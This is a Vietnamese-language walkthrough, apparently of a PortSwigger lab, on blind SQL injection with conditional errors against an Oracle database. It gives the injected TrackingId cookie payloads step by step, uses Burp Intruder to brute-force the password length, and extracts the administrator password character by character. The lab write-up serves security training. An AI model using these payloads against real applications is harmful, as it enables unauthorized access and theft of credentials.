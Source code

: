 ## Blind SQL injection with conditional errors

Sau khi thử TrackingId để tìm ra cơ sở dữ liệu Lab đang sử dụng thì chỉ có câu lệnh này sẽ load được còn các lệnh từ các csdl khác đều sẽ error => Oracle
> **TrackingId=k7oJYXEj2adTxvrq'+UNION+SELECT+banner+FROM+v$version--**

Nhưng ở đây, mặc dù load thành công mà nó lại không hiển thị lên gì cả (ta xác định nó có thể là blind), do đó chúng ta sẽ thử điều kiện lỗi để xác định.

Sử dụng query như bên dưới, chúng ta có thể áp dụng phép nối chuỗi trong Oracle
> **TrackingId=k7oJYXEj2adTxvrq'||(SELECT '' FROM DUAL)||'**

![](/imgs/SQL-Injection/50.png?raw=true)

Ta sẽ sử dụng query như sau để kiểm tra bảng có tồn tại không (nó sẽ trả về đúng nếu có 1 bảng users tồn tại):
> **TrackingId=k7oJYXEj2adTxvrq'||(SELECT '' FROM users where rownum=1)||'**

![](/imgs/SQL-Injection/51.png?raw=true)

Kiểm tra như thế đủ rồi, chúng ta sẽ tiến hành inject vào 1 điều kiện lỗi để database xử lý xem như thế nào.
> **SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual (cheatsheet Oracle database)** ([cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) hân hạnh tài trợ chương trình này....)

Chúng ta sẽ áp dụng vào
> **TrackingId=k7oJYXEj2adTxvrq'||(SELECT CASE WHEN (1=0) THEN to_char(1/0) ELSE NULL END FROM dual)||'**

Hàm to_char để chuyển số hoặc ngày tháng sang chuỗi (nhưng ở đây nó sẽ trả ra lỗi bởi vì đó là phép tính 1/0 :v)

=> Có nghĩa là nếu điều kiện 1=0 đúng thì sẽ trả về vế phía trước thực thi hàm to_char(1/0) còn ngược lại sẽ là NULL;

![](/imgs/SQL-Injection/52.png?raw=true)

Vì trả về là NULL nên web vẫn load bình thường, chúng ta cũng có thể test thử với trường hợp là 1=1 sẽ cho ra Internal Server Error.

Từ đây chúng ta có thể hiểu là ***ĐÚNG THÀNH SAI, SAI THÀNH ĐÚNG*** (bởi vì nếu điều kiện đúng sẽ trả ra 'internal server error' và điều kiện sai thì sẽ trả ra bình thường) :v

Ta sẽ áp dụng công thức sau đây để tránh bị rối não trước khi xuống tiếp phía dưới.

> Đúng + Đúng -> Trả ra Error (Do thực thi cái hàm To_Char)
> Đúng + Sai -> Trả về bình thường (do query trả về là NULL)

Chúng ta sẽ tiếp tục
> **TrackingId=k7oJYXEj2adTxvrq'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users where username='administrator')||'**

Hoặc chúng ta có thể
> **TrackingId=k7oJYXEj2adTxvrq'||(SELECT to_char(1/0) FROM users where username='administrator')||'**

Nhưng ở phần Solution có gợi ý dùng cái câu điều kiện sai cũng hay hay nên triển luôn =)))

> Vế này đã thêm 1 điều kiện where ở sau, nếu chỉ có 1 điều kiện 1=1 thì nó sẽ trả về error như đã nói ở bên trên, nhưng nếu điều kiện where mà có user là administrator (nó sẽ là True) và nó vẫn sẽ trả về Error.
> Và nếu thay administrator thành 1 user không hề tồn tại nó sẽ load bình thường
Ví dụ thêm chữ ‘s’ sau administrator => Load bình thường => Chã có user nào administrators (có s) cả.

![](/imgs/SQL-Injection/53.png?raw=true)

Còn không có ‘s’ => Load Error => user có tồn tại

![](/imgs/SQL-Injection/54.png?raw=true)

Sau khi đã xác nhận administrator có tồn tại thì chúng ta sẽ xác định password có chiều dài bao nhiêu.
> **TrackingId=k7oJYXEj2adTxvrq'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users where username='administrator' and LENGTH(password)>50)||'**

***Nhắc lại 1 lần nữa, vẫn như ý ở trên, nếu password mà > 50 mà sai nữa => Web load bình thường.
Còn nếu password nhỏ hơn 50 => Web load Error.***

![](/imgs/SQL-Injection/55.png?raw=true)

Chúng ta sẽ tiến hành bruteforce để xem chính xác password có chiều dài bao nhiêu.

Send Request sang Intruder và set lại dấu đô la ngay số 50 để đánh dấu đó là biến. Sau đó sang payload và chọn bruteforce kiểu number từ 1-50 với step là 1.

Như hình bên dưới ta có thể xác định được password có chiều dài chính xác 20 kí tự.

![](/imgs/SQL-Injection/56.png?raw=true)

Tiếp tục áp dụng lại kỹ thuật như Lab 9 chúng ta sẽ sử dụng 2 biến ở chỗ số thứ tự substring (độ dài pass) và 1 biến nữa là chuỗi để so sánh.
> **TrackingId=k7oJYXEj2adTxvrq'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users where username='administrator' and Substr(password,§1§,1)='§h§')||'**  (Substr là hàm tách chuỗi ở oracle)

![](/imgs/SQL-Injection/57.png?raw=true)

Sắp xếp theo thứ tự payload1 tương ứng với giá trị payload2 ta sẽ được Drbd91cznbq7e5gv4liv

Login vào tài khoản administrator là solve

![](/imgs/SQL-Injection/58.png?raw=true)




